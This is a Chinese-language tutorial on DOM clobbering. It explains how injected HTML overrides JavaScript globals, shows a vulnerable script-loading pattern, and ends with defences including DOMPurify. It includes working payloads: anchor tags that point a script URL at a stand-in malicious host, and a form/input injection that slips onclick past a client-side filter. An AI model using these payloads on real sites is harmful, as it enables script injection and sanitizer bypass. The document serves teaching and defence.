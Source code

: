 # DOM clobbering


# DOM clobbering

在本节中，我们将描述什么是 DOM clobbing ，演示如何使用 clobbing 技术来利用 DOM 漏洞，并提出防御 DOM clobbing 攻击的方法。


## 什么是 DOM clobbering

DOM clobbering 是一种将 HTML 注入页面以操作 DOM 并最终改变页面上 JavaScript 行为的技术。在无法使用 XSS ，但是可以控制页面上 HTML 白名单属性如 id 或 name 时，DOM clobbering 就特别有用。DOM clobbering 最常见的形式是使用 anchor 元素覆盖全局变量，然后该变量将会被应用程序以不安全的方式使用，例如生成动态脚本 URL 。

术语 clobbing 来自以下事实：你正在 “clobbing”（破坏） 一个全局变量或对象属性，并用 DOM 节点或 HTML 集合去覆盖它。例如，可以使用 DOM 对象覆盖其他 JavaScript 对象并利用诸如 submit 这样不安全的名称，去干扰表单真正的 submit() 函数。


## 如何利用 DOM-clobbering 漏洞

某些 JavaScript 开发者经常会使用以下模式：
```
var someObject = window.someObject || {};
```

如果你能控制页面上的某些 HTML ，你就可以破坏 someObject 引用一个 DOM 节点，例如 anchor 。考虑如下代码：
```
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

要利用此易受攻击的代码，你可以注入以下 HTML 去破坏 someObject 引用一个 anchor 元素：
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```

由于使用了两个相同的 ID ，因此 DOM 会把他们归为一个集合，然后 DOM 破坏向量会使用此集合覆盖 someObject 引用。在最后一个 anchor 元素上使用了 name 属性，以破坏 someObject 对象的 url 属性，从而指向一个外部脚本。


另一种常见方法是使用 form 元素以及 input 元素去破坏 DOM 属性。例如，破坏 attributes 属性以使你能够通过相关的客户端过滤器。尽管过滤器将枚举 attributes 属性，但实际上不会删除任何属性，因为该属性已经被 DOM 节点破坏。结果就是，你将能够注入通常会被过滤掉的恶意属性。例如，考虑以下注入：
```
<form onclick=alert(1)><input id=attributes>Click me
```

在这种情况下，客户端过滤器将遍历 DOM 并遇到一个列入白名单的 form 元素。正常情况下，过滤器将循环遍历 form 元素的 attributes 属性，并删除所有列入黑名单的属性。但是，由于 attributes 属性已经被 input 元素破坏，所以过滤器将会改为遍历 input 元素。由于 input 元素的长度不确定，因此过滤器 for 循环的条件（例如 i < element.attributes.length）不满足，过滤器会移动到下一个元素。这将导致 onclick 事件被过滤器忽略，其将会在浏览器中调用 alert() 方法。


## 如何防御 DOM-clobbering 攻击

简而言之，你可以通过检查以确保对象或函数符合你的预期，来防御 DOM-clobbering 攻击。例如，你可以检查 DOM 节点的属性是否是 NamedNodeMap 的实例，从而确保该属性是 attributes 属性而不是破坏的 HTML 元素。

你还应该避免全局变量与或运算符 `||` 一起引用，因为这可能导致 DOM clobbering 漏洞。

总之：
- 检查对象和功能是否合法。如果要过滤 DOM ，请确保检查的对象或函数不是 DOM 节点。
- 避免坏的代码模式。避免将全局变量与逻辑 OR 运算符结合使用。
- 使用经过良好测试的库，例如 DOMPurify 库，这也可以解决 DOM clobbering 漏洞的问题。

